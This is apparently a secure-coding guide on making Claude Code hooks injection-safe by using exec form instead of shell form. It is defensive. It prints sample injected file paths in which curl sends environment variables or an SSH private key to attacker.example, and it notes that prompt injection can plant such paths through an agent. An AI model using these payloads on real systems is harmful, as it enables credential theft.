

# Hook Exec Form vs Shell Form: Shell-Injection-Safe Hook Commands

> Claude Code v2.1.139 added the `args: string[]` field to hook handlers — when present, the harness spawns the command directly with `execve` instead of `sh -c`, so substituted hook input cannot inject shell syntax. Use exec form whenever tool input flows into argv; keep shell form only when pipes, redirects, or expansion are the point.

## The Two Forms

A Claude Code [`command`-type hook handler](https://code.claude.com/docs/en/hooks) executes in one of two forms, selected by the presence or absence of `args`:

| Form | Selected when | How the harness invokes it |
|------|--------------|------------------------|
| **Shell form** | `args` absent | Passes `command` to `sh -c` on macOS/Linux, Git Bash on Windows, or PowerShell. Shell tokenises, expands variables, and interprets pipes, `&&`, redirects, and globs. |
| **Exec form** | `args` present | Resolves `command` on `PATH` and spawns it directly. Each `args` element becomes one argument verbatim. Special characters pass through because there is no shell to interpret them. |

The [Claude Code changelog](https://code.claude.com/docs/en/changelog) for v2.1.139 (2026-05-11) frames the benefit as quoting convenience. The deeper consequence is that exec form neutralises shell metacharacters as an attack surface.

## The Failure Mode Exec Form Closes

Hook handlers commonly substitute JSON payload fields — `${tool_input.file_path}`, `${tool_input.command}`, `${tool_response.output}` — into `command`. The [PostToolUse auto-formatting page](../workflows/posttooluse-auto-formatting.md) shows the canonical pattern:

```json
{
  "type": "command",
  "command": "FILE=$(jq -r '.tool_input.file_path') && npx prettier --write \"$FILE\""
}
```

If `tool_input.file_path` is `foo.js"; curl https://attacker.example/$(env | base64); echo "`, the shell parses it as three statements. Quoting only helps when the input contains no quote characters. The attacker-influenced input need not come from the user — a malicious tool result, a poisoned MCP response, or [indirect prompt injection](../security/prompt-injection-threat-model.md) can produce a `file_path` the agent writes through Edit/Write, triggering the hook with attacker bytes.

The exec-form rewrite removes the failure mode at the syntax layer:

```json
{
  "type": "command",
  "command": "npx",
  "args": ["prettier", "--write", "${tool_input.file_path}"]
}
```

The harness substitutes `${tool_input.file_path}` as a plain string into one `argv` slot. `execve` does not parse shell metacharacters — `;`, `|`, `$()`, and backticks land as literal argument values. Per the [OWASP OS Command Injection Defense Cheat Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.md), when command and arguments pass as separate array elements, chaining and redirection operators arrive as parameters, not syntax.

## The Cross-Domain Pattern

The exec/shell split is the same pattern in [Dockerfile `CMD`](https://www.docker.com/blog/docker-best-practices-choosing-between-run-cmd-and-entrypoint/), Kubernetes pod `command:`/`args:`, and the difference between Java's `Runtime.exec(String)` and `ProcessBuilder`. The safe form is always the one that bypasses shell parsing.



## When Shell Form Is Still Right

Exec form does not deprecate shell form. Three conditions justify keeping the shell:

- **Pipes and redirects.** `jq -r '.tool_input.file_path' | xargs npx prettier --write` needs `|`.
- **Variable expansion or globs.** `find src/ -name "*.ts" -newer "$LAST_RUN"` needs glob expansion and `$LAST_RUN`; exec form would pass `*.ts` literally.
- **Windows `.cmd` and `.bat` shims.** The [hooks reference](https://code.claude.com/docs/en/hooks) notes exec form on Windows requires a real `.exe`; the `npm`, `npx`, and `eslint` shims in `node_modules/.bin` are not. Invoke the underlying script with `node` — `"command": "node", "args": ["${CLAUDE_PLUGIN_ROOT}/node_modules/eslint/bin/eslint.js"]` — rather than fall back to shell form.

For the first two, wrap the shell logic in a `scripts/` file and call it in exec form: `"command": "scripts/format-changed.sh", "args": ["${tool_input.file_path}"]`. The script receives attacker-influenceable input as a positional argument — a string, not a syntax fragment.

## Decision Rule

For any hook that substitutes hook input into a command:

1. **Default to exec form.** Move every substituted value into `args`. The harness substitutes `${path}` placeholders into both `command` and each `args` element ([hooks reference](https://code.claude.com/docs/en/hooks)).
2. **Switch to shell form only for shell features** exec form cannot express, and only when no substituted field is attacker-influenceable.
3. **Wrap unavoidable shell features in a script** invoked in exec form, passing hook fields as positional arguments.

The rule maps onto the [lethal trifecta threat model](../security/lethal-trifecta-threat-model.md): a hook running `Bash`-class code on substituted tool input is the egress leg. Closing the syntactic injection vector does not remove the principal's authority — it removes one mechanism by which untrusted content escalates that authority into arbitrary command execution.

## Example

A `PostToolUse` hook that runs Prettier on every edited file.

**Before — shell form, substituted path can break out:**

```json
{
  "hooks": {
    "PostToolUse": [
      {
        "matcher": "Edit|Write",
        "hooks": [
          {
            "type": "command",
            "command": "npx prettier --write \"${tool_input.file_path}\""
          }
        ]
      }
    ]
  }
}
```

A `file_path` of `a.js"; curl attacker.example/$(cat ~/.ssh/id_rsa | base64); echo "` parses as three shell statements.

**After — exec form, metacharacters land in the argv slot:**

```json
{
  "hooks": {
    "PostToolUse": [
      {
        "matcher": "Edit|Write",
        "hooks": [
          {
            "type": "command",
            "command": "npx",
            "args": ["prettier", "--write", "${tool_input.file_path}"]
          }
        ]
      }
    ]
  }
}
```

Prettier receives the entire string as one filename argument and fails with `ENOENT` — the worst case becomes a failed format pass, not a credential exfiltration.

## Key Takeaways

- Exec form (`args: string[]`) spawns the command with `execve`; the kernel does not parse shell syntax, so substituted hook input cannot inject commands.
- Shell form is appropriate only when you need pipes, redirects, expansion, or globs — and only when no substituted field is attacker-influenceable.
- Wrap unavoidable shell features in a script under `scripts/`, then call the script in exec form with hook fields as positional arguments.
- The Windows `.cmd`/`.bat` shim caveat does not justify shell form — invoke the underlying script with `node` directly in exec form.
- Exec form is a syntactic mitigation, not a substitute for [argument-value validation or allowlisting](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.md) — it neutralises metacharacters, not malicious argument values.

## Related

- [Hooks Invoking MCP Tools](hooks-invoking-mcp-tools.md)
- [Effort-Aware Hooks](effort-aware-hooks.md)
- [Hook Catalog](hook-catalog.md)
- [PostToolUse Auto-Formatting](../workflows/posttooluse-auto-formatting.md)
- [Sandbox Rules for Harness Tools](../security/sandbox-rules-harness-tools.md)
- [Prompt Injection Threat Model](../security/prompt-injection-threat-model.md)
- [Lethal Trifecta Threat Model](../security/lethal-trifecta-threat-model.md)
